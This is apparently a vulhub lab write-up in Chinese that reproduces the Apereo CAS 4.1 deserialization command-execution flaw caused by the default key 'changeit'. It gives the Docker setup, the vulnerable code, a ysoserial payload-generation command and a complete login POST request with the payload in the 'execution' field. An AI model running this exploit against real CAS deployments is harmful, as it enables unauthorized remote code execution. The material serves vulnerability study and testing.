



# Apereo CAS 4.1 反序列化命令执行漏洞

Apereo CAS是一款Apereo发布的集中认证服务平台，常被用于企业内部单点登录系统。其4.1.7版本之前存在一处默认密钥的问题，利用这个默认密钥我们可以构造恶意信息触发目标反序列化漏洞，进而执行任意命令。

参考链接：

- https://apereo.github.io/2016/04/08/commonsvulndisc/

## 环境搭建

执行如下命令启动一个Apereo CAS 4.1.5：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/cas/login`即可查看到登录页面。

## 漏洞复现

漏洞原理实际上是Webflow中使用了默认密钥`changeit`：

```java
public class EncryptedTranscoder implements Transcoder {
    private CipherBean cipherBean;
    private boolean compression = true;

    public EncryptedTranscoder() throws IOException {
        BufferedBlockCipherBean bufferedBlockCipherBean = new BufferedBlockCipherBean();
        bufferedBlockCipherBean.setBlockCipherSpec(new BufferedBlockCipherSpec("AES", "CBC", "PKCS7"));
        bufferedBlockCipherBean.setKeyStore(this.createAndPrepareKeyStore());
        bufferedBlockCipherBean.setKeyAlias("aes128");
        bufferedBlockCipherBean.setKeyPassword("changeit");
        bufferedBlockCipherBean.setNonce(new RBGNonce());
        this.setCipherBean(bufferedBlockCipherBean);
    }

    // ...
```

我们使用[Apereo-CAS-Attack](https://github.com/vulhub/Apereo-CAS-Attack)来复现这个漏洞。使用ysoserial的CommonsCollections4生成加密后的Payload：

```
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "touch /tmp/success"
```



然后我们登录CAS并抓包，将Body中的`execution`值替换成上面生成的Payload发送：

```
POST /cas/login HTTP/1.1
Host: your-ip
Content-Length: 2287
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://your-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.89 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://your-ip:8080/cas/login
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: JSESSIONID=24FB4BAAE1A66E8B76D521EE366B3E12; _ga=GA1.1.1139210877.1586367734
Connection: close

username=test&password=test&lt=LT-2-gs2epe7hUYofoq0gI21Cf6WZqMiJyj-cas01.example.org&execution=[payload]&_eventId=submit&submit=LOGIN
```



登录Apereo CAS，可见`touch /tmp/success`已成功执行：


